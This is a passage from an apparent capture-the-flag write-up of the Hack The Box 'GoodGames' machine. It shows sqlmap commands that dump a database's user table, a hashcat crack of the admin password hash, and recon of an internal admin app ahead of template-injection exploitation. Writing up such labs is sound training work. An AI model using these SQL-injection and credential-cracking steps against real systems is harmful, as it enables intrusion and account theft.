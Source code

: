 #### List tables in `main` database
```
┌──(magicrc㉿perun)-[~/attack/HTB GoodGames]
└─$ sqlmap -r login.http --batch --level 3 -D main --tables
Database: main
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+
```

#### Dump `main.users` table
```
┌──(magicrc㉿perun)-[~/attack/HTB GoodGames]
└─$ sqlmap -r login.http --batch --level 3 -D main -T user --dump
<SNIP>
Database: main                                                                                                                         
Table: user
[1 entry]
+----+---------------------+---------+-----------------------------------------+
| id | email               | name    | password                                |
+----+---------------------+---------+-----------------------------------------+
| 1  | admin@goodgames.htb | admin   | 2b22337f218b2d82dfc3b6f77e7cb8ec        |
+----+---------------------+---------+-----------------------------------------+
```

#### Crack password for `admin@goodgames.htb`
```
┌──(magicrc㉿perun)-[~/attack/HTB GoodGames]
└─$ hashcat -m 0 '2b22337f218b2d82dfc3b6f77e7cb8ec' /usr/share/wordlists/rockyou.txt --quiet
2b22337f218b2d82dfc3b6f77e7cb8ec:superadministrator
```

#### Discover `internal-administration.goodgames.htb` after loging as `admin@goodgames.htb`
```
┌──(magicrc㉿perun)-[~/attack/HTB GoodGames]
└─$ echo "$TARGET internal-administration.goodgames.htb" | sudo tee -a /etc/hosts
10.129.82.210 internal-administration.goodgames.htb
```

### Gain initial foothold by exploiting SSTI in `internal-administration` web application

#### Discover `internal-administration` is a python based application
```
┌──(magicrc㉿perun)-[~/attack/HTB GoodGames]
└─$ curl -I http://internal-administration.goodgames.htb     
HTTP/1.1 302 FOUND
Date: Wed, 22 Oct 2025 08:58:37 GMT
Server: Werkzeug/2.0.2 Python/3.6.7
Content-Type: text/html; charset=utf-8
Content-Length: 218
Location: http://internal-administration.goodgames.htb/login
```
